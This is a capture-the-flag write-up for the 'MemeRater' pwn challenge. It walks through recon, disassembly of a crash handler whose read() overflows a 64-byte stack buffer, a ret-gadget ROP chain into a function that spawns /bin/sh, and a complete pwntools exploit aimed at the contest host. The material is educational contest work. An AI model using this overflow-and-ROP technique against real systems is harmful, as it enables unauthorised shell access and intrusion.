


# MemeRater — short writeup

**Category:** pwn · **Service:** `nc memerater.zerodays.events 5222`

**Exploit chain (summary):** a huge first rating → **SIGSEGV** → **`crash_logger`** handler → **`read(256)`** into **64** bytes → overflow → **`ret` @ 0x40101a** → **`memer` @ 0x4011a6** → `system("/bin/sh")`.

---


## 1. Recon

### `file`

```bash
file ./meme_rater
```


### `checksec`

```bash
checksec --file=./meme_rater
```



*(No canary and no PIE → stable addresses; NX → no executable shellcode on the stack.)*

---

## 2. Symbols and PLT (pwndbg)

List useful functions and **`system`**, **`read`**, **`scanf`** imports:

```text
gdb ./meme_rater
pwndbg> info functions
```


---

## 3. Shell target: `memer`

### pwndbg disassembly

```text
pwndbg> disassemble memer
```

```text
Dump of assembler code for function memer:
   0x00000000004011a6 <+0>:     push   rbp
   0x00000000004011a7 <+1>:     mov    rbp,rsp
   0x00000000004011aa <+4>:     lea    rax,[rip+0xf59]        # 0x40210a
   0x00000000004011b1 <+11>:    mov    rdi,rax
   0x00000000004011b4 <+14>:    call   0x401050 <system@plt>
   ...
End of assembler dump.
```

Check the string passed in `rdi`:

```text
pwndbg> x/s 0x40210a
0x40210a: "/bin/sh"
```

**Common mistake:** `x/s 0x4021a` → wrong address (truncated or incomplete). Use the address from the **`lea`** comment: **`0x40210a`**.

### Static view (Ghidra) — optional

Same idea: locate **`memer`**, **`system`**, the **`/bin/sh`** string.



---

## 4. Overflow: `crash_logger`

### Disassembly

```text
pwndbg> disassemble crash_logger
```

```text
   ...
   0x00000000004011f9 <+61>:    lea    rax,[rbp-0x40]
   0x00000000004011fd <+65>:    mov    edx,0x100
   0x0000000000401202 <+70>:    mov    rsi,rax
   0x0000000000401205 <+73>:    mov    edi,0x0
   0x000000000040120a <+78>:    call   0x401080 <read@plt>
   0x000000000040120f <+83>:    lea    rax,[rip+0xf72]        # 0x402188
   ...
   0x000000000040122e <+114>:   leave
   0x000000000040122f <+115>:   ret
```

- Buffer **`[rbp-0x40]`** → **64** bytes.
- **`read`** requests **0x100** bytes → **stack buffer overflow** on the handler’s stack.

**Debugging:** `break *0x40120f` (right after `read`), then `run < <(python3 gen.py)`: phase 1 = six ratings (first one huge), phase 2 = **`cyclic`** to measure offset to **`RIP`** (**72** bytes = 64 + saved `rbp`).

### `gen.py` script (two-phase stdin)


---

## 5. `ret` gadget

```bash
ROPgadget --binary ./meme_rater | grep ': ret$'
```

```text
0x000000000040101a : ret
```

A single **`ret`** is enough for stack alignment before the **`system`** call inside **`memer`**.

---

## 6. Payload

| Item | Value |
|------|--------|
| Padding | 64 bytes |
| `saved rbp` | `0` |
| Gadget | `0x40101a` (`ret`) |
| Target | `0x4011a6` (`memer`) |

---

## 7. Exploit (pwntools)

Full code (also copied in [`exploit.py`](./exploit.py)):

```python
#!/usr/bin/env python3
"""
MemeRater pwn:
1. The 1–100 check is buggy: any positive int passes; the first becomes an index into tier_table -> OOB -> SIGSEGV.
2. crash_logger() does read(0, buf, 0x100) into 64 bytes -> overflow.
3. memer() calls system("/bin/sh") @ 0x4011a6. A ret gadget (0x40101a) before fixes stack alignment for libc system.
"""
from pwn import *

context.arch = "amd64"
context.log_level = "info"

BINARY = "./meme_rater"
RET = 0x40101A
MEMER = 0x4011A6


def exploit(io):
    huge = 0x7FFFFFFF
    for i in range(6):
        io.sendlineafter(b": ", str(huge if i == 0 else 50).encode())

    io.recvuntil(b"fix it..")
    # buf 64 @ rbp-0x40, then saved rbp, then ret
    payload = b"A" * 64 + p64(0) + p64(RET) + p64(MEMER)
    io.send(payload)

    io.recvuntil(b"ok\n", timeout=3)
    io.sendline(b"cat flag* 2>/dev/null || cat flag.txt 2>/dev/null || ls -la")
    io.interactive()


def main():
    import sys

    if len(sys.argv) > 1 and sys.argv[1] == "local":
        io = process(BINARY)
    else:
        io = remote("memerater.zerodays.events", 5222)

    exploit(io)


if __name__ == "__main__":
    main()
```

Run:

```bash
python3 exploit.py
# local test:
python3 exploit.py local
```


---

## 8. Flag

```text
ZeroDays{…}
```
